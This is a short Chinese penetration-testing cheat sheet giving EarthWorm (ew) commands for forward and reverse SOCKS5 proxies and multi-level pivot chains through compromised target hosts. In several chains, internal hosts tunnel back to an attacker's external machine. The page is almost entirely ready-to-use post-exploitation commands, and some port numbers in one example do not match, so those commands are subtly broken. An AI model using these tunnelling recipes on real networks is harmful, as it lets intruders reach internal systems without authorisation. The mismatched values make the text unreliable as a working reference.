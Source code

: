 ![image](/assets/Pentest_Note/master/img/346.png)
 #### 正向(目标机存在外网IP)：
	>ew –s ssocksd –l 888
	连接sockscap64靶机外网IP+端口888
 #### 反弹socks5(目标机无外网IP)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	-l为socks软件连接的端口，-e为目标主机和vps的通信端口。
	靶机:
	>ew -s rssocks -d 外网IP -e 1008 
	sockscap64连接攻击机外网IP+端口1008
 #### 二级环境(A有外网，B内网无外网)：
	靶机B:
	>ew –s ssocksd –l 888
	靶机A:
	>ew –s lcx_tran –l 1080 –f 靶机B –g 888
	Sockscap64连接靶机外网IP+端口 1080
 #### 二级环境(A无外网，B内网无外网)：
	外网攻击机：
	>ew –s lcx_listen –l 10800 –e 888
	靶机B：
	>ew –s ssocksd –l 999
	靶机A:
	>ew -s lcx_slave -d 外网 -e 8888 -f 靶机B -g 9999 
	Sockscap64连接攻击机外网IP+端口 10080
 #### 三级环境(A无外网,B内网无外网通A,C通B)：
	外网攻击机：
	>ew -s rcsocks -l 1008 -e 888
	靶机A：
	>ew -s lcx_slave -d 外网攻击机 -e 888 -f 靶机B -g 999
	靶机B：
	>ew -s lcx_listen -l 999 -e 777
	靶机C:
	>ew -s rssocks -d靶机B -e 777
	Sockscap64连接攻击机外网IP+端口 1008
